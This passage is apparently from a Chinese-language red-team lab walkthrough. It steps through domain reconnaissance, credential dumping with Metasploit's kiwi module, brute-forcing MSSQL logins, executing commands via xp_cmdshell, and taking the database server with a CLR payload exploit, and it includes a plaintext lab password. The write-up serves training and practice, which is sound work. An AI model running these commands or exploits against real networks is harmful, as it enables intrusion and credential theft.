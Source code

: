 * `net time /domain`
* `net group "domain controllers" /domain`
* `nltest /DCLIST:redteam`
* `ping owa`

![](http://qn.laohuan.xin/Snipaste_2021-11-20_14-02-51.png)

6.查询域管理员，为administrator

![](http://qn.laohuan.xin/Snipaste_2021-11-20_14-06-42.png)

7.查询进程，无域管进程，无法token窃取

![](http://qn.laohuan.xin/2021-11-23_04-5%E8%BF%9B%E7%A8%8B.png)

8.抓取win7密码 **Saul:admin!@#45**

`load kiwi`

`creds_all`

![](http://qn.laohuan.xin/2021-11-24_05-32-%E6%8A%93%E5%AF%86%E7%A0%81.png)

### 0x3 数据库服务器

1.查询SPN信息,发现存在exchange、sqlserver等服务。

`setspn -T redteam.red -q */*`

![](http://qn.laohuan.xin/2021-11-26_06-35spn.png)

2.或者使用fscan

`fscan64.exe -h 10.10.10.0/24`

![](http://qn.laohuan.xin/2021-11-24_06-02-fscan.png)		

可以看到数据库服务器为10.10.10.18这台机器，且fscan已经扫描出来存在**sa:sa**的弱口令

3.也可以使用msf的sqlserver爆破模块

先添加路由`run autoroute -s 10.10.10.0/24`

`auxiliary/scanner/mssql/mssql_login`

![](http://qn.laohuan.xin/2021-11-27_04-01sa%E5%AF%86%E7%A0%81.png)

4.已经拿到sqlserver口令，使用xp_cmdshell执行命令

`auxiliary/admin/mssql/mssql_exec`

![](http://qn.laohuan.xin/2021-11-27_04-16.png)

可以执行，但权限太小

5.使用clr正向shell拿下数据库服务器

`exploit/windows/mssql/mssql_clr_payload`
